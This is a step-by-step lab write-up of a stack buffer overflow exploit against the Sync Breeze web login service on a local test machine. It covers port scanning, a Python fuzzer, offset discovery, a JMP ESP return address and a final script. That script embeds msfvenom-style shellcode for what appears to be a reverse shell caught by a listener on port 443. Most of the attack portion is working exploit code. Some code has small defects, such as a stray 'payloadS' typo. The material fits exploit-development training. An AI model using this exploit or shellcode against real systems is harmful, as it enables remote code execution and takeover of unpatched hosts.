


# sync breeze

 (1) (1) (1).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    
*   **locate offset**

    create offset by using Metasploit

<figure><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP



*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><figcaption></figcaption></figure>

